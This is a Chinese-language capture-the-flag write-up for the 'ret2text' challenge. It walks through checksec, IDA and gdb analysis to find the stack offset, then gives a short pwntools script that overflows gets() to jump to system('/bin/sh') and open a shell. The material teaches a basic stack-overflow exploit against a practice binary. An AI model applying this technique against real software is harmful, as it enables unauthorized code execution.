







1. `checksec ret2text`  
   
     <center>图1</center>

2. IDA
   1. main  
     
   <center>图2</center>  

   2. secure  
     
   <center>图3</center>
   
3. 思路  
   没有开启 Stack canary, main 函数中有 gets 函数, secure 函数中有 `system("/bin/sh");`. 因此, 获取 shell 的思路就是: 利用 gets 函数来做栈溢出, 将主函数的返回地址修改到 `system("/bin/sh");` 那里.

4. 确定偏移  
    <center>图4</center>  
   字符串 s 的偏移地址基于栈顶指针(esp), 可以借助 gdb 查看调用 gets 函数之前寄存器 esp, ebp 的值, 计算二者的差, 将基于 esp 的偏移转化为基于 ebp 的偏移: `gdb ./ret2text` -> `b *0x080486ae`(<font color=#FF0000>注意: 这里要将断点下在 call 处</font>) -> `r`  
     
   <center>图5</center>  

   可以看到 `ESP = 0xffffcf90, EBP = 0xffffd018, ESP = EBP - 0x88`.  
   由图 4 可知: 字符串 s 的基于 esp 的偏移为 `esp + 80h + s`, 查看 main 函数的汇编代码可知 `s = -64h`. 则 s 此时基于 ebp 的偏移为 `ebp - 88h + 80h - 64h = ebp - 6ch`.  
   接下来查看 `system("/bin/sh");` 的地址:  
     
   <center>图6</center>  
   
5. exp
   ```python
   from pwn import *

   sh = process('./ret2text')
   payload = 'a' * 0x6c + 'bbbb' + p32(0x0804863a)

   sh.sendline(payload)
   sh.interactive()
   ```

6. 结果  
     
   <center>图7</center>  